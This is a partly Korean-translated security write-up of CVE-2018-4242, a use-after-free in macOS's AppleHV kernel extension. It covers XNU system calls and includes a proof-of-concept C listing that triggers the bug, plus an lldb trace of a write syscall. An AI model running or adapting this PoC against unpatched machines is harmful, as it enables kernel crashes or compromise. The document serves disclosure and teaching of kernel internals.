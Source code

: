 
# Look at The XNU Through A Tube CVE-2018-4242 Write-up

Zhuo Liang of Qihoo 360 Nirvan Team

## Contents
## 1 Introduction 1
> #### 1.1 CVE-2018-4242 . . . . . . . . . . . . . . . . . . . . . . . . . 1

## 2 The XNU Kernel 2
> ####	2.1 System Call . . . . . . . . . . . . . . . . . . . . . . . . . . 2
> ####	2.2 MIG . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . 6
> ####	2.2.1 mach_msg And Mach port . . . . . . . . . . . . . . . . . 6
> ####	2.2.2 MIG: RPC Interfaces Generator . . . . . . . . . . . . . 8
> ####	2.3 IOKit . . . . . . . . . . . . . . . . . . . . . . . . . . . . . 11
> ####  2.3.1 IOUserClient . . . . . . . . . . . . . . . . . . . . . . . 12

## 3 AppleHV 12
> #### 3.1 Reverse Engineering . . . . . . . . . . . . . . . . . . . . . . 12
> #### 3.2 Vulnerability . . . . . . . . . . . . . . . . . . . . . . . . . 16
> #### 3.3 Fixing . . . . . . . . . . . . . . . . . . . . . . . . . . . . . 17

## 4 Conclusion 17
  
  
  
  
## 1 Introduction

> ### 1.1 CVE-2018-4242

애플은 지난 주 3월에 보고된 CVE-2018-4242에 대한 [macOs 10.13.4 보안 업데이트](https://support.apple.com/en-us/HT208849)를 발표 했습니다. 해당 CVE-2018-4242는 커널 권한으로 임의의 코드를 실행함으로써 악성 프로그램에 노출될 수 있는 취약점입니다. 이 보고서는 이 문제를 통해서 [XNU](https://en.wikipedia.org/wiki/XNU)를 살펴 보는데 도움이 될 것입니다.
Listing 1의 코드는 우리가 시연한 POC입니다. 전체 소스코드는  [github](https://github.com/brightiup/research/blob/master/macOS/CVE-2018-4242/AppleHVUaF.c)에서 다운로드할 수 있습니다.

```c
1 // AppleHVUaF.c
2 void destroy_vm() {
3   asm("mov $0x03000000, %rax; mov $0x04, %rdi; syscall");
4   return;
5 }
6 int main(int argc, char **argv) {
7   const char *service_name = "AppleHV";
8   io_service_t service = IOServiceGetMatchingService(kIOMasterPortDefault, IOServiceMatching(service_name));
9
10  if (service == MACH_PORT_NULL) {
11    printf("[−] Cannot get matching service of %s\n", service_name);
12    return 0;
13  }
14  printf("[+] Get matching service of %s succeed, service=0x%x\n", service_name, service);
15
16  io_connect_t client = MACH_PORT_NULL;
17  kern_return_t ret = IOServiceOpen(service, mach_task_self(), 0, &client);
18  if (ret != KERN_SUCCESS) {
19    printf("[−] Open service of %s failed!\n", service_name);
20    return 0;
21  }
22  printf("[+] Create IOUserClient of %s succeed, client=0x%x\n",
23  service_name, client);
24  IOServiceClose(client);
25  usleep(5);
26  destroy_vm();
27  return 0;
28 }
```
​							Listing 1: CVE-2018-4242에 대한 PoC

이 코드를 이해하려면 XNU에 대한 몇 가지 기본 지식이 필요합니다. XNU를 처음 접하는 독자를 위해 2절에서는 XNU에 대한 내용을 다룰것 입니다. 이미 아래 항목들을 알고 있다면 3절로 부터 보셔도 됩니다.
  * Classes of system calls in XNU
  * MIG aka RPC interfaces generator in XNU
  * IOKit subsystem

Section 1 Introduction  
Section 2 Basic knowledges of XNU  
Section 3 Reverse of AppleHV.kext and details of CVE-2018-4242  
Section 4 Conclusion  

# 2 The XNU Kernel

## 2.1 System Call
As we all know, system call in computing is a way for programs to
interact with the operating system. The user-level processes can request
services of the operating system through a system call. In XNU, there are
four classes of system call which powers all the user-kernel interacting.
Let’s delve into these through the syscall instruction as shown in Listing
1.
​	syscall on x86_64 architecture is the kind of instruction which can
invoke an OS system call handler in kernel space. Listing 2 illustrates
how syscall works through a simple write example.

```c
~ cat write.c
2 #include 
3 int main() {
4 write(0, "Hello\n", 6);
5 return 0;
6 }
7 ~ clang write.c −o write
8 ~ lldb write
9 (lldbinit) b libsystem_kernel.dylib`write
10 Breakpoint 1: where = libsystem_kernel.dylib`write, address = 0x000000000001e6f8
11 (lldbinit) r
12 −−−−−−−−−−−−−−−−−−−−−−−−−−−−−−−−−−−−−−−−−−−−−−−−−−−−−−−−−−−−−−−−−−−−−−−−−−−[regs]
13 RAX: 0x0000000000000006 RBX: 0x0000000000000000 RBP: 0x00007FFEEFBFF8D0
14 RSP: 0x00007FFEEFBFF8B8 RDI: 0x0000000000000000 RSI: 0x0000000100000FA2
15 RDX: 0x0000000000000006 RCX: 0x00007FFEEFBFF9F8 RIP: 0x00007FFF7ED096F8
16 R8: 0x0000000000000000 R9: 0xFFFFFFFF00000000 R10: 0x00007FFEEFBFFA48
17 R11: 0x00007FFF7ED096F8 R12: 0x0000000000000000 R13: 0x0000000000000000
18 R14: 0x0000000000000000 R15: 0x0000000000000000
19 CS: 002B FS: 0000 GS: 0000
20 −−−−−−−−−−−−−−−−−−−−−−−−−−−−−−−−−−−−−−−−−−−−−−−−−−−−−−−−−−−−−−−−−−−−−−−−−−−[code]
21 write @ libsystem_kernel.dylib:
22 −> 0x7fff7ed096f8: b8 04 00 00 02 mov eax, 0x2000004
23 0x7fff7ed096fd: 49 89 ca mov r10, rcx
24 0x7fff7ed09700: 0f 05 syscall
25 0x7fff7ed09702: 73 08 jae 0x7fff7ed0970c ; <+20>
26 0x7fff7ed09704: 48 89 c7 mov rdi, rax
27 0x7fff7ed09707: e9 19 54 ff ff jmp 0x7fff7ecfeb25 ; cerror
28 0x7fff7ed0970c: c3 ret
29 0x7fff7ed0970d: 90 nop
30 (lldbinit) x/s rsi
31 0x100000fa2: "Hello\n"
```
​								Listing 2: Simple write example
